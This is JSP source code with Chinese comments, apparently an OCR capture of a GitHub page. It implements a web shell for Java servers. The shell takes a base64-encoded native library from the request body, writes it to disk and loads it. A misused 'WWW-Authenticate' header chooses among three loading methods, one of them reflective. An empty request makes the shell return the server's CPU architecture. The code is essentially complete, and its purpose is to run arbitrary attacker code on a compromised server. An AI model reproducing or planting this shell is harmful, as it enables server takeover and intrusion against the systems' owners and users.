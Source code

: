 ```java

// JSP 声明函数中无法获取全局默认的ServletRequest对象，但ServletRequest继承java.io.InputStream，可以替代
public String UploadBase64DLL(java.io.InputStream stream) throws Exception {
    sun.misc.BASE64Decoder b = new sun.misc.BASE64Decoder();
    java.io.File file = new java.io.File(getFileName());
    java.io.FileOutputStream fos = new java.io.FileOutputStream(file);
    fos.write(b.decodeBuffer(stream));
    fos.close();
    return file.getAbsolutePath();
}

private void RuntimeLoad(String path){
    Runtime.getRuntime().load(path);
}

private void SystemLoad(String path){
    System.load(path);
}

// 有些JDK版本没有这个对象，因此采用反射加载进行运行
private void NativeLoad(String path) throws Exception{
    Class Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
    if(Native != null){
        java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
        Load.invoke(path);
    }
}
</jsp:declaration>

<jsp:scriptlet>
    // 加载方式
    String method = request.getHeader("WWW-Authenticate");

    try{
        ServletInputStream stream = request.getInputStream();
      if (stream.available() == 0){
          out.println(System.getProperty("os.arch"));
          return;
      }
      String file =  UploadBase64DLL(stream);
      // 按照Header头选择加载方式
      switch (method){
          case "1":
              RuntimeLoad(file);
              break;
          case "2":
              SystemLoad(file);
              break;
          case "3":
              NativeLoad(file);
              break;
          default:
              RuntimeLoad(file);
              break;
      }
    }catch (Exception e){
        System.out.println(e.toString());
    }
</jsp:scriptlet>
```
